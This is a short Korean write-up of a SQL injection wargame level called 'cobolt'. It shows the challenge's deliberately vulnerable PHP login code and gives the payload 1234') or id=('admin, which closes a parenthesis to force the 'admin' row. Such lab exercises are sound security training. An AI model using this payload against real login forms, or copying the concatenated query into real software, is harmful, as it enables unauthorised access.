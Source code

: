 # cobolt

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 받아온 pw를 md5함수에 넣어 비교한다.
- select된 id가 'admin'이어야 한다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234') or id=('admin

GET으로 받아온 pw값을 쿼리 안에서 괄호로 감싼다.
-> 동일하게 괄호를 닫아주고 문장을 자연스럽게 연결해주면 된다.

해당 값을 보내면, query 속 조건은 다음과 같다.

**select id from prob_cobolt where id='1234' and pw=md5('1234') or id=('admin')**

`or`을 기준으로 왼쪽 `id='1234' and pw=md5('1234')`이 거짓, 오른쪽 `id=('admin')`이 참이므로
참인 조건에 의거 'admin'을 불러오게 된다.